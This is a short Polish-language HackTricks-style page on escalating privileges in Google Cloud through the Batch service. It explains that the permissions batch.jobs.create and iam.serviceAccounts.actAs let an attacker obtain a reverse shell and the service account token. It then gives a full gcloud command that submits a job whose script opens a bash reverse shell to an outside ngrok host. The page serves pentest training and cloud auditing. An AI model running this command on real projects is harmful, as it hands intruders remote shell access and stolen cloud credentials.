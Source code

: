 # GCP - Batch Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Batch

Podstawowe informacje:

{{#ref}}
../gcp-services/gcp-batch-enum.md
{{#endref}}

### `batch.jobs.create`, `iam.serviceAccounts.actAs`

Możliwe jest utworzenie zadania wsadowego, uzyskanie odwrotnej powłoki i wyeksportowanie tokena metadanych SA (domyślnie SA obliczeniowe).
```bash
gcloud beta batch jobs submit job-lxo3b2ub --location us-east1 --config - <<EOD
{
"name": "projects/gcp-labs-35jfenjy/locations/us-central1/jobs/job-lxo3b2ub",
"taskGroups": [
{
"taskCount": "1",
"parallelism": "1",
"taskSpec": {
"computeResource": {
"cpuMilli": "1000",
"memoryMib": "512"
},
"runnables": [
{
"script": {
"text": "/bin/bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/10396 0>&1'\n"
}
}
],
"volumes": []
}
}
],
"allocationPolicy": {
"instances": [
{
"policy": {
"provisioningModel": "STANDARD",
"machineType": "e2-micro"
}
}
]
},
"logsPolicy": {
"destination": "CLOUD_LOGGING"
}
}
EOD
```
{{#include ../../../banners/hacktricks-training.md}}

